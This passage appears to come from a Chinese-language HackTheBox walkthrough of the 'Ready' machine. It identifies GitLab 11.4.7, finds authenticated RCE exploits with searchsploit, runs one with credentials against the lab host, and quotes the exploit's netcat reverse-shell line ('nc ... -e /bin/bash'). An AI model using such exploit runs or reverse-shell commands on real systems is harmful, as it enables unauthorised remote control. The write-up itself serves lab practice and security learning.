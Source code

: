 ```
Disallow: /*/*/services
Disallow: /*/*/protected_branches
Disallow: /*/*/uploads/

```

在这个页面确认gitlab版本为：11.4.7
```
http://10.10.10.220:5080/help
```

搜索漏洞情况，存在一个授权的RCE
```
┌──(root💀kali)-[~/htb/Ready]
└─# searchsploit gitlab 11.4.7
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)                                                                                                                                                                   | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authenticated) (1)                                                                                                                                                 | ruby/webapps/49257.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results


```


执行payload，但是没有返回rev shell
```
──(root💀kali)-[~/htb/Ready]
└─# python3 49334.py -u chen -p 123456789 -g 'http://10.10.10.220' -l 10.10.16.2 -P 5080
[+] authenticity_token: P6oayybySIHkjN1hOiORE2To2qUsij2zCCWcEwRjr/eJ/UnDoWxn4YF5ZWw9aRBAUenpEHf0nkcnXQAZfSnCew==
[+] Creating project with random name: project2006
[+] Running Exploit
[+] Exploit completed successfully!

```

查看exp源代码，发现用的是nc反弹的shell
```
f'nc {local_ip} {local_port} -e /bin/bash'
```
